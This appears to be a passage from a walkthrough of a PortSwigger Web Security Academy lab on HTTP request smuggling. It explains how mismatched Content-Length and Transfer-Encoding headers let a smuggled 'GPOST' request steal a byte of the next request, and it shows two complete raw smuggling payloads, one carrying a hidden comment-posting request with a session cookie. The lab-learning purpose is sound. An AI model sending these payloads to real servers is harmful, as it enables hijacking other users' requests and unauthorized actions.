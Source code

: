 Since the `Content-Length` in the `GPOST` req is equal to `6` and the actual length of the req body is `5`, the req processing can not be finished and it still waits for 1 more byte to arrive.

Since one more byte is needed - it steals (or smuggles if you will) the first byte of the `Normal req` and the req body processing is done.
It then figures out that the req method (`GPOST`) does not exist and therefore it throws the err: "Unrecognized method GPOST" 

> Note:
If we change the `Content-Length` in the `GPOST` req from `6` to `5`
```bash
POST / HTTP/1.1
Host: 0aff00e8044387e48367ab0100c100d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
56\r\n
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
\r\n
0\r\n
\r\n
```
And then send `Attack req` and `Normal req` after it, from the server we'll get both 200 OK responses.

It happens because `5` is the actual length of the req body of the `GPOST` req.
Server will successfully process the req body of the `GPOST` req and then will check that `GPOST` http method does not exist and it will throw an err, but we won't see that err. It'll happen in the background.

In other words `Attack req` will get 200 OK, response.
Then `GPOST` req will fail behind the scenes
And `Normal req` will also get 200 OK.
And therefore we'll see 200 OK twice.

BTW: to test that the `GPOST` req fails in the background, instead of the `GPOST` req we can send a req that posts a comment. And if the comment is posted - then the request was executed in the background.

Example of an `Attack req` that posts a comment:
```bash
POST / HTTP/1.1
Host: 0a2100b704ce958f805bd1ce00350016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked
 
143
POST /post/comment HTTP/1.1
Host: 0a2100b704ce958f805bd1ce00350016.web-security-academy.net
Cookie: session=3HLsDdzUYgzPQ2kQavc6Unl87DZy5nz9
Content-Length: 114
Content-Type: application/x-www-form-urlencoded
 
csrf=no436u5Fc1ZrQd1kaVlYUje5LkkTQM7H&postId=6&name=x&email=x%40x.com&website=https%3A%2F%2Fx.com&comment=y
0
```
